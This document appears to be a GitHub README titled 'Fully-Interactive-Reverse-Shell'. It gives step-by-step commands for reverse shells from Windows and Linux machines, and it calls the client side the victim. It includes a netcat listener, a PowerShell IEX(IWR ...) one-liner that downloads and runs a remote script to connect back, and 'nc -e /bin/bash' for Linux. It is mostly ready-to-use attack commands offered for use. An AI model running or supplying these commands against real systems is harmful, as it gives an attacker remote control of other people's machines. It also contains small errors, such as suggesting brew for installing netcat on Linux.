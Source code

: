 # Fully-Interactive-Reverse-Shell
## Netcat ~ "the Swiss army knife of networking"

## For Windows:

ConPtyShell(pseudo concole)- a Fully Interactive Reverse Shell for Windows systems.
## Requirements
Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)
Server Side: any tcp listener, i.e. netcat

#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
```
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```
```
example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88
```
#### NOTE: 
For client/victim side~ Command should be initiated in powershell, not cmd

## For Linux
## Requirements
ClientSide : linux with netcat installed(most linux have nc)
ServerSide : any tcp listener like, i.e. netcat (prefered machine - Kali/Parrot OS)

Note: if client side netcat is not installed, use :
```
brew install netcat
```

#### For mac :
Use-
```
brew install netcat
```
#### Via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## THANK YOU
## Credit: 249KING
